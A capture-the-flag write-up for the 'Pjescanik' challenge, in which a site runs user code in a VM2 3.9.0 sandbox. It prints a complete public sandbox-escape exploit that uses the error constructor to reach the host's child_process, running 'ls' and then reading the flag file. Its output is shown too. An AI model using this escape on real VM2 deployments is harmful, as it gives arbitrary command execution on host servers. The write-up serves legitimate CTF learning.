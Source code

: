# Pjescanik (170 points)

We are presented with a website which has a VM2 sandbox for running code and the information that it's version 3.9.0.

We also have the server source code and `package-lock.json`, but we don't really need them because they didn't lie and it's in fact using VM2 3.9.0, but we can double check if we really want to.

Searching the web for `VM2 3.9.0 exploit` we can immediately find [this](https://gist.github.com/leesh3288/f05730165799bf56d70391f3d9ea187c) and we get the exploit..

```text
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('ls');
}
```

This literally spits out the answer 

```text
Rezultat pokretanja koda:
node_modules package-lock.json package.json s3cr3tf01d3r server.js views
```

Then running `ls s3cr3tf01d3r` we see that it has the flag, and finally

```text
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('cat s3cr3tf01d3r/f14g_048x6z43y7.txt');
}
```

Which gives the flag `CTF2024[293455399515]`.
